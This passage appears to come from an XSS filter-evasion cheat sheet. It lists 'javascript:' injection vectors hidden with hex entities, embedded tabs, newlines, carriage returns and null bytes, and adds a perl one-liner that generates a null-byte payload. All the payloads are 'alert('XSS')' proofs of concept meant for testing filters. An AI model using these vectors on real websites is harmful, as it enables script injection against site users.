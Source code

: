 
			Hexadecimal HTML character references without trailing semicolons

			This is also a viable XSS attack against the above string $tmp_string =~ s/.*\&#(\d+);.*/$1/; which assumes that there is a numeric character following the pound symbol – which is not true with hex HTML characters). Use the XSS calculator for more information:
			1
			<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>


			Embedded tab

			Used to break up the cross site scripting attack:
			1
			<IMG SRC="jav    ascript:alert('XSS');">


			Embedded Encoded tab

			Use this one to break up XSS :
			1
			<IMG SRC="jav&#x09;ascript:alert('XSS');">


			Embedded newline to break up XSS

			Some websites claim that any of the chars 09-13 (decimal) will work for this attack. That is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. See the ascii chart for more details. The following four XSS examples illustrate this vector:
			1
			<IMG SRC="jav&#x0A;ascript:alert('XSS');">


			Embedded carriage return to break up XSS

			(Note: with the above I am making these strings longer than they have to be because the zeros could be omitted. Often I’ve seen filters that assume the hex and dec encoding has to be two or three characters. The real rule is 1-7 characters.):
				1
				<IMG SRC="jav&#x0D;ascript:alert('XSS');">


				Null breaks up JavaScript directive

				Null chars also work as XSS vectors but not like above, you need to inject them directly using something like Burp Proxy or use %00 in the URL string or if you want to write your own injection tool you can either use vim (^V^@ will produce a null) or the following program to generate it into a text file. Okay, I lied again, older versions of Opera (circa 7.11 on Windows) were vulnerable to one additional char 173 (the soft hypen control char). But the null char %00is much more useful and helped me bypass certain real world filters with a variation on this example:
				1
				perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out


				Spaces and meta chars before the JavaScript in images for XSS
